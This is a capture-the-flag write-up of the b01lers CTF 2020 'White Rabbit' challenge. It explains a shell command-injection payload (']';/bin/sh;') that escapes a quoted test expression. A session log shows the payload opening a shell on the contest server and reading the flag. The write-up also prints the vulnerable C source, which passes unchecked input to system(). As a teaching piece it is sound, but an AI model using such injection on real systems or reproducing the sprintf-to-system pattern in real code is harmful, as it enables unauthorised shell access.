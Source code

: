 # b01lers CTF 2020: Pwn - White Rabbit (100 Points)

![img](https://raw.githubusercontent.com/FreezeLuiz/CTF-Writeups/master/pwn/images/b01lersctf2020-white_rabbit/white-rabbit-desc.PNG "Challenge Description")

This challenge was fun, it relied on escaping of particular bash command sequence to get a shell on the remote server by executing `/bin/sh` 

We are only presented with the executable binary for local testing...


## Recon and Analysis

Running `checksec` from pwntools on the binary will bring us to a surprisingly secure binary...

```sh
kali@kali:~/Documents/b01lerctf/white_rabbit$ checksec ./whiterabbit
[*] '/home/kali/Documents/b01lerctf/white_rabbit/whiterabbit'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Only lets try some low hanging fruit and go for some `strings`...

```
...
[]A\A]A^A_
Follow the white rabbit.
Path to follow: 
flag
No printing the flag.
[ -f '%1$s' ] && cat '%1$s' || echo File does not exist
:*3$"
GCC: (Ubuntu 9.3.0-10ubuntu2) 9.3.0
.shstrtab
.interp
...
```

The interesting strings are `Follow the white rabbit` until the `[ -f '%1$s' ] && cat '%1$s' || echo File does not exist` which is a bash one liner script when you look at it.


Okay how about if we run the binary, lets interact with it...

```
kali@kali:~/Documents/b01lerctf/white_rabbit$ ./whiterabbit 
Follow the white rabbit.
Path to follow: asd
File does not exist
```

It is looking for a file, and I guess that it is checking if the file exists so it can display its content using `cat filename` what if we try to create a fake flag file locally and try to read the contents of it from the binary...

```
kali@kali:~/Documents/b01lerctf/white_rabbit$ echo "flag{fake_flag_to_the_rescue}" > flag
kali@kali:~/Documents/b01lerctf/white_rabbit$ ./whiterabbit 
Follow the white rabbit.
Path to follow: flag
No printing the flag.
```

There must be a check in the binary that checks if theres a flag in the input and if the string `flag` exists it will print `No printing the flag.`...

From what we know until now there is a bash one-liner script that has `&&` and `||` operators... To understand the bash one-liner better

```
[ -f '%1$s' ] --> Consider this an IF-Statement, our input is '%1$s' and this IF-Statement checks if the file exists.

&& cat '%1$s' --> If the file exists then cat its content.

|| echo File does not exist --> Else if it doens't exist then echo File does not exist.
```

## Exploit and reading the flag

We know that our input is between square brackets `[ 'INPUT' ]` we can escape that square brackets by closing the single quote and followed by closing the square bracket ` ']`

After escaping the square brackets we can specify a semi-colon `;` to end the original command and start a new one, which is `/bin/sh`, and ending with another semi-colon to specify the end of our `/bin/sh` command so it doesn't collide with the rest of the bash one-liner. 

```sh
'];/bin/sh;
```
Trying that payload in the remote server will give us a `/bin/sh` shell, so we can read the flag easily.

```sh
kali@kali:~/Documents/b01lerctf/white_rabbit$ nc chal.ctf.b01lers.com 1013
Follow the white rabbit.
Path to follow: ]';/bin/sh;
$ id
uid=1000(whiterabbit) gid=1000(whiterabbit) groups=1000(whiterabbit)
$ ls
Makefile
flag.txt
whiterabbit
whiterabbit.c
wrapper.sh
$ cat flag.txt
flag{Th3_BuNNy_wabbit_l3d_y0u_h3r3_4_a_reason}
```

## Alternative way: reading the source code.

There is an alternative way, when you find out that the program can read files in the directory, you could try to read the source file which is usually the same name as the binary, so for example the binary's name is `whiterabbit` so the source code might be `whiterabbit.c`

```c
kali@kali:~/Documents/b01lerctf/white_rabbit$ ./whiterabbit 
Follow the white rabbit.
Path to follow: whiterabbit.c
#include <stdio.h>
#include <unistd.h>
#include <string.h>
#include <stdlib.h>


int main() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);

    printf("Follow the white rabbit.\n");
    printf("Path to follow: ");

    char buffer[64];

    scanf("%s", buffer);
    if(strstr(buffer, "flag") != NULL) {
        printf("No printing the flag.\n");
        exit(0);
    }
    
    char line[256];
    sprintf(line, "[ -f '%1$s' ] && cat '%1$s' || echo File does not exist", buffer);
    system(line);
}

```
